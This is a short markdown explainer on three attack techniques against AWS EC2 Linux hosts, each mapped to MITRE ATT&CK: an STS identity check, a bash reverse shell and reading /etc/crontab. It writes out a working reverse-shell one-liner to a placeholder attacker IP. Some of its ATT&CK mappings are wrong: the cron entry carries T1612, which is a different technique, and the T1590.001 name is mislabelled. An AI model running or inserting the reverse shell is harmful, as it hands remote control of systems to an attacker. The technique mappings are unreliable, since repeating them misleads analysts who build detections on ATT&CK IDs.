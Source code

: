 # Selected AWS EC2 Linux Attack Techniques

This document explains three selected attack techniques on AWS EC2 Linux instances, their importance, and their mapping to the MITRE ATT&CK framework.

## 1. `aws sts get-caller-identity`

**Description:**  
This command uses the AWS Security Token Service (STS) to retrieve details about the identity of the AWS entity making the request. It returns the `Account`, `Arn`, and `UserId`, providing attackers information about the role or user context in which their operations are being executed.

**Why It's Important:**  
- **Reconnaissance in the Cloud:** This command is commonly used in cloud environments to understand the privileges and context of the compromised identity.  
- **Privilege Escalation:** By identifying the current role or user and their associated permissions, attackers can determine their next steps for privilege escalation or lateral movement.

**MITRE ATT&CK Mapping:**  
- **Technique:** [T1590.001 - Gather Victim Identity Information: Cloud Accounts](https://attack.mitre.org/techniques/T1590/001/)  
- **Tactic:** Reconnaissance  
- **Use Case:** Attackers use `aws sts get-caller-identity` to enumerate and validate AWS credentials during the reconnaissance phase of a cloud attack.

---

## 2. `bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'`

**Description:**  
This command spawns a reverse shell by redirecting input/output to a remote attacker's machine, enabling them to interact with the compromised system remotely. The `<ATTACKER-IP>` and `<PORT>` should be replaced with the attacker’s IP address and port.

**Why It's Important:**  
- **Initial Access or Persistence:** Reverse shells are used by attackers to gain a foothold on a system after exploiting a vulnerability or misconfiguration.  
- **Command Execution and Data Exfiltration:** Once the reverse shell is established, attackers can execute arbitrary commands, move laterally, or exfiltrate sensitive data.

**MITRE ATT&CK Mapping:**  
- **Technique:** [T1059.004 - Command and Scripting Interpreter: Unix Shell](https://attack.mitre.org/techniques/T1059/004/)  
- **Tactic:** Execution  
- **Use Case:** Attackers leverage reverse shell commands to execute malicious payloads and maintain access.

---

## 3. `cat /etc/crontab`

**Description:**  
This command displays the contents of the `crontab` file, which contains scheduled tasks for the system. Attackers use this to identify existing jobs and potentially add malicious tasks.

**Why It's Important:**  
- **Persistence and Privilege Escalation:** By understanding the structure of scheduled tasks, attackers can insert malicious cron jobs to maintain persistence.  
- **Discovery:** Revealing scheduled tasks helps attackers identify potential automation routines that can be exploited.

**MITRE ATT&CK Mapping:**  
- **Technique:** [T1612 - Scheduled Task/Job: Unix Cron](https://attack.mitre.org/techniques/T1612/)  
- **Tactic:** Persistence, Discovery  
- **Use Case:** Attackers inspect `crontab` for opportunities to exploit automated tasks or inject malicious commands for persistence.

---

### Summary of Relevance

These techniques highlight key attack scenarios in Linux-based AWS EC2 environments:
1. **`aws sts get-caller-identity`:** Focuses on cloud-specific reconnaissance, identifying access and permissions for further exploitation.
2. **`bash -c 'bash -i >& /dev/tcp/<ATTACKER-IP>/<PORT> 0>&1'`:** Demonstrates the use of reverse shells for command execution and remote access.
3. **`cat /etc/crontab`:** Explores discovery and persistence opportunities in Unix-like systems via scheduled tasks.

These techniques collectively cover cloud-specific, execution, and persistence attack vectors, aligning well with different phases of an attack lifecycle.
